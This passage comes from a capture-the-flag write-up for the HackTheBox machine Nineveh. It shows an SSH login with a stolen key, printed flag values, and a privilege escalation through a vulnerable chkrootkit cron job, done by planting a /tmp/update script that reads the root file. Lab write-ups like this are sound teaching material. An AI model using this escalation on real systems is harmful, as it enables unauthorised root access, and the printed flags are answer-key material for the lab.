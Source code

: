 ```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/nineveh]
└─$ ssh -i id_rsa amrois@10.10.10.43
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Tue Sep 14 01:11:35 2021 from 10.10.14.31
amrois@nineveh:~$ ls
user.txt
amrois@nineveh:~$ cat user.txt
286e3c9161ce6c62cc6d39f8040750b5
```

## ROOT.TXT


On using linpeas I found that a bash script `/usr/sbin/report-reset.sh` is being run every minute.

```bash
amrois@nineveh:/usr/sbin$ cat report-reset.sh
#!/bin/bash

rm -rf /report/*.txt
```

It makes a report of process which are being changed and saves the report in `/report` directory

ON viewing one of the reports the line `Checking 'wted'... not tested: can't exec ./chkwtmp` lead me to search for `chkwtmp` . I found that it is a prt of `chkrootkit`.

This script is using chkrootkit , which on doing a quick google search I find is vulnerable and can be exploited via this [exploit](https://www.exploit-db.com/exploits/33899)

We will make a `update` file in `/tmp` directory 

```bash
amrois@nineveh:/tmp$ cat update
#!/bin/bash

cat /root/root.txt > /home/amrois/root.txt
```
After a minute we get the root.txt

```bash
amrois@nineveh:/tmp$ cat ~/root.txt
25f267a7074c5102831c52982193e013
```

We can also write a reverse shell to the update file to get a shell as root.